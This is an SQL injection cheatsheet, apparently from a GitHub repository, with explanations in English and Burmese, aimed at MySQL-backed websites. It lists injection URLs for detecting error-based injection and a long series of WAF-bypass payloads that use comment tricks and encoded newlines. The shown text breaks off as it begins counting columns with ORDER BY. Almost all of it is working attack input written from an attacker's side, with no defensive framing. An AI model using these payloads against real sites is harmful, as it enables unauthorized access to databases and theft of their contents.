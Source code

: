 # MySQL Error based SQL Injection Cheatsheet

This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the MySQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability

<code>http://site.com/index.php?id=1</code>

Website load successfully.

အဲ့တာကိုကျွန်တော်တို့ အနောက်ကနေ ' လေးထည့်ပေးလိုက်ရင် အောက်ကပုံစံမျိုး error message ကျလာမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=1'</code>

Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1\'</code>

Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1 and 0' order by 1--+</code>

ဒီလိုထည့်လိုက်ရင်တော့ website ကပုံမှန်အတိုင်း ပြန်ပြီးအလုပ်လုပ်သွားမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=2-1</code>

Website loads successfully.

<code>https://site.com/index.php?id=-1'</code>

Error message shows up again

<code>https://site.com/index.php?id=-1)'</code>

Error message shows up again

<code>https://site.com/index.php?id=1'-- -</code>

Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1'--</code>

Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1+--+</code>

Website might loads successfuly, but it might shows error also

# Bypassing WAF to detect the vulnerability (if the first methodology didn't work)
In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.

<code>https://site.com/index.php?id=1'--/**/-</code>

If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payloads.

<code>https://site.com/index.php?id=/^.*1'--+-.*$/</code>

<code>https://site.com/index.php?id=/*!500001'--+-*/</code>

<code>https://site.com/index.php?id=1'--/**/-</code>

<code>https://site.com/index.php?id=1'--/*--*/-</code>

<code>https://site.com/index.php?id=1'--/*&a=*/-</code>

<code>https://site.com/index.php?id=1'--/*1337*/-</code>

<code>https://site.com/index.php?id=1'--/**_**/-</code>

<code>https://site.com/index.php?id=1'--%0A-</code>

<code>https://site.com/index.php?id=1'--%0b-</code>

<code>https://site.com/index.php?id=1'--%0d%0A-</code>

<code>https://site.com/index.php?id=1'--%23%0A-</code>

<code>https://site.com/index.php?id=1'--%23foo%0D%0A-</code>

<code>https://site.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-</code>

<code>https://site.com/index.php?id=1'--#qa%0A#%0A-</code>

<code>https://site.com/index.php?id=/*!20000%0d%0a1'--+-*/</code>

<code>https://site.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/</code>

## Find the number of columns using 'ORDER BY' query
Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY

<code>https://site.com/index.php?id=1' order by 1-- -</code> 

This query musn't shows up error, since there is no lower number than 1

